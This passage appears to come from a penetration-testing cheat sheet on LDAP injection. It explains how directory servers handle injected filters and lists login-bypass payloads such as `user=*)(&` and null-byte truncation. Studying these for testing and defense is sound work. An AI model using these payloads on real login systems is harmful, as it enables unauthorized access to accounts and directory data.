 For example: `(&(!(objectClass=Impresoras))(uid=s*))` 
`(&(objectClass=user)(uid=*))`

You can access to the database, and this can content information of a lot of different types.

**OpenLDAP**: If 2 filters arrive, only executes the first one. **ADAM or Microsoft LDS**: With 2 filters they throw an error. **SunOne Directory Server 5.0**: Execute both filters.

**It is very important to send the filter with correct syntax or an error will be thrown. It is better to send only 1 filter.**

The filter has to start with: `&` or `|` 

Example: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))` `VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Then: `(&(objectClass=``***)(ObjectClass=*))**` will be the first filter (the one executed).

# LOGIN BYPASS

LDAP supports several formats to store the password: clear, md5, smd5, sh1, sha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.


```
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```



```
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```


```
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```



```
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```


```
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```
